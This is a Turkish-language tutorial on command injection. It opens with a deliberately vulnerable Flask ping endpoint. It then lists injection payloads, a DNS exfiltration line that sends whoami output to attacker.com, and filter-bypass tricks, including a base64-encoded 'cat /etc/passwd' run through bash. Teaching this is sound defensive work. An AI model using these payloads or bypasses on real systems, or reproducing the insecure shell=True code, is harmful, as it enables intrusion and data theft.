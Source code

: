 # Command Injection & Argument Injection
Command Injection, web uygulamalarının kullanıcıdan aldığı girdiyi yeterli doğrulama veya filtreleme yapmadan doğrudan işletim sistemi komutuna iletmesi sonucu ortaya çıkan kritik bir güvenlik açığıdır. Bu zafiyet sayesinde saldırgan, uygulamanın çalıştığı işletim sistemi üzerinde uygulamanın yetkileriyle (çoğunlukla www-data, apache, nginx) arbitrary command execution gerçekleştirebilir.

Command Injection genellikle aşağıdaki koşullarda görülür:
- Kullanıcı girdisinin system(), exec(), shell_exec(), os.system() gibi OS komut çalıştırma fonksiyonlarına parametre olarak verilmesi
- Girdi doğrulama ve sanitize mekanizmalarının eksik veya hatalı olması
- İşletim sistemi komutlarının shell üzerinden çağrılması (örn: /bin/sh -c "komut")

Bu zafiyetin istismarı sonucunda saldırgan, dosya sistemi üzerinde okuma/yazma, ağ bağlantıları kurma, hassas verileri sızdırma gibi saldırılar gerçekleştirebilir.

# Command Injection Saldırısının İşleyişi
Aşağıda, Command Injection zafiyetine sahip bir Flask uygulaması örneği bulunmaktadır. Yorum satırları, kodun işleyişini adım adım açıklar. Bu örnek, kullanıcı girdisinin doğrudan işletim sistemi komutuna iletilmesi sonucu ortaya çıkan güvenlik açığını göstermektedir.

```python
from flask import Flask, request
import subprocess

app = Flask(__name__)

@app.route('/ping', methods=['GET'])
def ping():
    ip = request.args.get('ip')  # /ping?ip=127.0.0.1 ile kullanıcı IP gönderir
    command = 'ping -c 1 ' + ip # Ping komutu oluşturuluyor
    # subprocess.run ile komut çalıştırılıyor. shell=True nedeniyle Command Injection riski var
    result = subprocess.run(command, shell=True, capture_output=True, text=True) # ip adresini eklediği ping komutunu çalıştırır
    return f"<pre>{result.stdout}</pre>"  # Çıktı ekrana yazdırılıyor


if __name__=='__main__': 
   app.run(debug=True) 
```

Geliştirici, kodun şu şekilde çalıştırılacağını varsayar:
```url
http://example.com/ping?ip=google.com
```

Ancak bir saldırgan, shell operatörlerini kullanarak kolayca RCE elde edebilir:
```url
http://example.com/ping?ip=google.com;whoami
```

Bu istek çalışacaktır çünkü kullanıcı girdisi üzerinde herhangi bir filtreleme yapılmamaktadır ve komut olduğu gibi çalıştırılmaktadır. Aşağıda kullanılabilecek bazı parametre örnekleri bulunmaktadır:
```bash
; whoami
& whoami &
&& whoami
| whoami
`whoami`
$(whoami)
|| whoami
```

## Blind Command Injection
Bazı uygulamalarda çıktıyı göremezsiniz. Bu durumda zaman tabanlı veya dışa veri sızdırma yöntemleri kullanılır. Örnekler:
- Zaman tabanlı:
```url
http://example.com/ping?ip=127.0.0.1; sleep 5
```
Yanıtın gecikmesi zafiyeti doğrular.

- DNS/HTTP exfiltration:
```url
http://example.com/ping?ip=127.0.0.1; nslookup $(whoami).attacker.com
```

Sistem bilgisi saldırgan sunucusuna gönderilir.

# Command Injection’da Filtre Bypass Teknikleri
Command Injection testlerinde bazen uygulamalar belirli karakterleri veya komutları filtreler. Bu durumda klasik payload’lar çalışmaz. İşte farklı bypass teknikleri ve mantıkları:
## {IFS} (Internal Field Separator)
- Ne işe yarar: Boşluk karakterleri filtrelendiğinde kullanılabilir.
- Mantık: {IFS} POSIX/Linux ortamlarında boşluk yerine geçer. Regex veya whitelist filtrelerini atlatmak için idealdir.
Örnek:
```bash
ping${IFS}-c${IFS}1${IFS}127.0.0.1
```

Burada boşluk yerine ${IFS} kullanıldı, komut hâlâ çalışır.

## Karakter ve Substring Manipülasyonları
Bazı filtreler ;, / veya belirli karakterleri engeller. Karakterleri substring veya array manipülasyonu ile bypass edebiliriz.

Örnekler:
- Linux / karakteri:
```bash
echo ${PATH:0:1}   # PATH değişkeninin ilk karakteri
```
- Windows %HOMEPATH%:
```powershell
echo %HOMEPATH:~6,-11%
```

- ; karakteri (Linux):
```bash
echo ${LS_COLORS:10:1}
```
- ; karakteri (Windows PowerShell):
```powershell
$env:HOMEPATH[0]
```
3. Blacklist Komutları Bypasslamak
- Mantık: Filtre belirli kelimeleri engelliyorsa, stringi parçalayıp yeniden birleştirebiliriz.

Linux Örnekleri:
```bash
w'h'o'am'i
w"h"o"am"i
who$@ami
(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi"; printf %s "${a,,}")
```

Windows Örnekleri:
```bash
who^ami
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi"; printf %s "${a,,}")
```
## rev Komutu
- Mantık: Filtre belirli komut kelimelerini engelliyorsa, kelimeyi ters yazıp rev ile düzeltebiliriz.

Örnek:
```bash
$(rev<<<'imaohw')
```

'imaohw' → ters yazılmış whoami, rev ile shell’de düzeltip çalıştırılır.

## Base64 Encoding
- Mantık: Payload’ı Base64’e encode edip shell içinde decode ederek çalıştırmak, filtreleri veya WAF’ları atlatır.

Örnek:
```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dk==)
```

"Y2F0IC9ldGMvcGFzc3dk==" → cat /etc/passwd komutunu temsil eder. Filtre doğrudan komutu göremez.


